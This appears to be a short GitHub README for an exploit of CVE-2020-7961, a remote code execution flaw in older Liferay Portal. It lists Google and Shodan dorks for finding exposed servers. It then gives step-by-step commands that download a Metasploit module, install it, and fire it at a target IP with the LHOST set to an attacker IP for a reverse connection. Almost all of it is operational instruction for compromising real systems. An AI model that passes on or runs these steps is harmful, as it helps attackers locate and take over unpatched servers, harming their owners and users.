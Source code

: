 # CVE-2020-7961

![](https://img.shields.io/static/v1?label=Product&message=Liferay&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=prior%20to%207.2.1%20CE%20GA2&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)

 - Google dork:
```
inurl:/api/jsonws
```
 - Shodan dork:
```
Powered+By+Liferay
```
 - [PublicWWW Link](https://publicwww.com/websites/Powered+By+Liferay/)

### Usage
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2020/Liferay_Portal_RCE/liferay_java_unmarshalling.rb
```
```
cp liferay_java_unmarshalling.rb /usr/share/metasploit-framework/modules/exploits/multi/http/
```
```
msfdb reinit; msfconsole -q
```
```
use exploits/multi/http/liferay_java_unmarshalling.rb
```
```
exploit(multi/http/liferay_java_unmarshalling) > set rhosts target_IP
exploit(multi/http/liferay_java_unmarshalling) > set lhost attacker_IP
exploit(multi/http/liferay_java_unmarshalling) > run
```